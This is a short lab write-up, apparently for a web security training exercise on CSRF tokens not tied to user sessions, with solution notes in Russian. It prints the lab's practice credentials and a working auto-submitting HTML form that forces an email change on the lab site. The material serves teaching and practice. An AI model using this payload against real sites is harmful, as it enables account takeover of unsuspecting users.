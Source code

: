 # CSRF where token is not tied to user session
PRACTITIONER

This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't integrated into the site's session handling system.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You have two accounts on the application that you can use to help design your attack. The credentials are as follows:

* wiener:peter
* carlos:montoya

## Решение
Залогинился в режиме инкогнито под одним пользователем, открыл инструменты разработчика, через Inspect скопировал CSRF-токен, залогинился в обычном режиме под другим пользователем, заменил через Inspect CSRF-токен, отправил форму - работает.

Подготовил эксплойт с валидным токеном своего пользователя:
```
<html>
<body>
    <form action="https://0a5d00fa03efc48b83062e1e00cd0056.web-security-academy.net/my-account/change-email" method="POST">
        <input type="hidden" name="email" value="wiener123@normal-user.net" />
        <input required="" type="hidden" name="csrf" value="39JVOoyvNG0kPdWep7qiN5cFHOeIAzOc" />
    </form>
    <script>document.forms[0].submit();</script>
</body>
</html>
```
Deliver exploit to victim -> задание выполнено.
